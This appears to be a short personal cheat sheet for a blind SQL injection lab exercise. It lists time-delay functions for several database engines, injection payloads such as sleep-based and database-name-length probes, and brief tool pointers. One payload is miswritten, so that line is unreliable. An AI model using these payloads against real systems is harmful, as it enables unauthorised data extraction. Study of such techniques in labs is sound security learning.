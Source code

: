## SQL Injection Blind Easy

1. Time delay cheet sheet

Oracle	dbms_pipe.receive_message(('a'),10)
Microsoft	WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT pg_sleep(10)
MySQL	SELECT SLEEP(10)
MariaDB	SELECT SLEEP(10)
MariaDB is a fork from MySQL, Basic SQL syntax is the same

`1' and sleep(5)#`


# Boolean

0. Try 1, 2, 3 and 11

1. Get DB name len
`1' and length(database())=0#`
`1' and length(version@@)=0#`

3. Burp Repeater

4. Python Script

5. Selenium